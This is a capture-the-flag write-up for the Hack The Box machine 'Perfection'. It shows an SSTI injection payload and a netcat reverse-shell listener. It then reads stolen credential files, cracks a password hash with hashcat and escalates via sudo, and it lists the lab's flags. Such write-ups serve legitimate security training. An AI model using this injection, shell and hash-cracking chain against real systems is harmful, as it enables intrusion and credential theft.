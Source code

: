 # Perfection

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Linux
- **Points:** 20

## Solution

We can open the browser:

![start](./start.jpg)

And intercept our request in burp:

![burp](./burp.jpg)

So we can try to use [CRLF (%0D%0A) Injection](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a) with [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#what-is-ssti-server-side-template-injection) and insert `%0a<%= 7*7 %>` and URL-encode it:

![49](./49.jpg)

So we seem it outputs 49, so we can build python reverse shell [here](https://www.revshells.com), set up our netcat listener and send the request:

```sh
$ nc -l 9001
```

![shell](./shell.jpg)

Send the request and ...

```sh
$ nc -l 9001
$ id
id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
```

And we are in! Let's get the user flag:

```sh
$ cat ../user.txt
4c42325dee60f5a10cf9000b409e045b
```

Now we need to escalate our priveleges. We can find file `/var/mail/susan`, let's read it:

```
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

This mean that the password will be in form `susan_nasus_...`.

We can also find the file `Migration/pupilpath_credentials.db`:

```
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

So the `Susan's` hash will be `abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f`. It's SHA-256. Let's decrypt it with hashcat, knowing the pattern of the password:

```sh
$ hashcat -m 1400 -a 3 hash.txt "susan_nasus_?d?d?d?d?d?d?d?d?d"
...
susan_nasus_413759210
```

Got it! Let's see, what susan can do as root:

```sh
susan@perfection:~/Migration$ sudo -l
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
```

Susan can do anything :)

```sh
$ sudo cat /root/root.txt
af49e4d4b58eabb89421464f6cf0fec1
```

## Final Flags

> `user`: 4c42325dee60f5a10cf9000b409e045b
> `root`: af49e4d4b58eabb89421464f6cf0fec1

*Created by [bu19akov](https://github.com/bu19akov)*